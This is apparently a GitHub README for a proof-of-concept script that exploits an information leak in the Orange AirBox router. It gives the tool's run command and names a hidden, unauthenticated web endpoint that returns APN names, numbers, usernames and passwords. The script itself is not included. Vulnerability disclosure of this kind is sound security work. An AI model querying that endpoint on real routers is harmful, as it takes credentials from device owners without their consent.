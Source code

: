 # AirBoxAPNLeak
Proof of Concept of AirBoxAPNLeak Vulnerability.                       

# How to use      

AirBoxAPNLeak.py         
`python AirBoxAPNLeak.py -ip 192.168.1.1`        
`APN NAME, NUMBER ,PASSWORD, USERNAME`

# How it works        

AirBox has hidden webpage `http://192.168.1.1/goform/getProfileList?rand=` which prints detailed APN info. It can be used to steal external ip addresses.
# Router information        

Router: AirBox
Vendor: Orange
Firmware version: 3.0.0.4.380_6516
    
